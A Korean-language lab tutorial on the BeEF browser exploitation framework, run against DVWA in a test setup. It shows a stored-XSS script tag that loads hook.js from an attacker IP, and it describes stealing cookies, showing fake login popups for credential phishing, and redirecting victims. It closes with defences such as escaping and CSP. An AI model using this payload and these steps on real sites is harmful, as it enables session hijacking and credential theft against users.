

## 1. 개요

**BeEF (Browser Exploitation Framework)**는 웹 브라우저의 클라이언트 사이드 취약점을 이용하는 강력한 익스플로잇 프레임워크이다.
XSS(Cross-Site Scripting) 취약점이 존재하는 웹 페이지에 악성 스크립트(`hook.js`)를 삽입하여, 해당 페이지에 접속한 피해자의 브라우저를 좀비 상태로 만들고 제어한다.
본 글에서는 BeEF의 설치부터 XSS와 연계하여 피해자 브라우저를 후킹(Hooking)하고, 가짜 로그인 창을 띄워 정보를 탈취하는 피싱 공격까지 실습한다.

---

## 2. 공격 흐름



---

## 3. 실습 환경

### Kali Linux (공격자)
BeEF 서버를 구동하고 관리 패널을 제어하는 환경이다.
```bash
sudo beef-xss  # 서버 실행
```

### DVWA / bWAPP (피해 환경)
XSS 취약점이 존재하는 웹 애플리케이션이다. `Stored XSS` 취약점을 이용해 악성 스크립트를 영구적으로 삽입한다.
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
```

### 클라이언트 VM (피해자)
실제 공격 당할 브라우저(Chrome, Firefox)를 실행할 윈도우 VM이다.

---

## 4. 설치 및 실행

Kali Linux에는 기본적으로 설치되어 있거나 패키지 관리자를 통해 쉽게 설치할 수 있다.

### 설치 및 실행 명령
```bash
# 설치
sudo apt install beef-xss

# 실행
sudo beef-xss
```

실행 시 관리 패널 URL(`http://127.0.0.1:3000/ui/panel`)과 초기 로그인 계정(`beef`/`beef`) 정보가 출력된다. (초기 비밀번호는 실행 시 변경을 요구한다.)

---

## 5. 공격 기법 및 흐름

BeEF 공격의 핵심은 **Hooking**이다. 피해자가 공격자의 자바스크립트를 로드하는 순간 브라우저는 BeEF 서버에 연결된다.

1.  **공격 준비**: BeEF 서버를 실행하고 `hook.js` 링크를 확보한다. (`http://<Attack_IP>:3000/hook.js`)
2.  **함정 설치 (XSS)**: 게시판 등에 악성 스크립트 태그를 삽입한다.
    ```html
    <script src="http://192.168.1.100:3000/hook.js"></script>
    ```
3.  **피해자 접속**: 사용자가 해당 게시글을 읽는 순간 브라우저가 Hooking 된다.
4.  **제어 획득**: BeEF 관리 패널의 'Online Browsers' 목록에 피해자가 나타나며, 다양한 명령(Command)을 전송할 수 있다.

---

## 6. 공격 실습: 정보 탈취

연결된 피해자 브라우저에 대해 다양한 공격 모듈을 실행해 본다.

### 1. 쿠키 탈취
*   **경로**: `Commands` -> `Browser` -> `History` -> `Get Cookie`
*   **실행**: `Execute` 버튼을 누르면 피해자의 세션 쿠키 값이 결과창에 표시된다.

### 2. 가짜 로그인 창
가장 효과적인 공격 중 하나로, 세션이 만료된 것처럼 속여 다시 로그인을 유도한다.
*   **경로**: `Commands` -> `Social Engineering` -> `Pretty Theft`
*   **설정**: `Dialog Type`을 `Facebook`이나 `Google` 등으로 선택하고 실행한다.
*   **결과**: 피해자 화면에 정교한 가짜 로그인 팝업이 뜨며, 입력한 ID/PW는 BeEF 서버로 전송된다.

### 3. 리다이렉트
공격이 끝난 후 피해자를 엉뚱한 사이트(또는 악성코드 다운로드 페이지)로 강제 이동시킨다.
*   **경로**: `Commands` -> `Browser` -> `Redirect Browser`

---

## 7. 방어 방법

BeEF와 같은 클라이언트 사이드 공격을 막기 위해서는 XSS 취약점을 근본적으로 제거해야 한다.

*   **XSS 방어**: 사용자 입력값에 대한 검증 및 이스케이프 처리를 철저히 한다.
*   **CSP (Content Security Policy)**: 웹 서버 헤더에 CSP를 적용하여 허용되지 않은 외부 도메인의 스크립트 로딩을 차단한다.
    ```http
    Content-Security-Policy: script-src 'self';
    ```
*   **브라우저 보안 업데이트**: 최신 브라우저를 사용하여 이미 알려진 렌더링 엔진 취약점을 패치한다.

<hr class="short-rule">
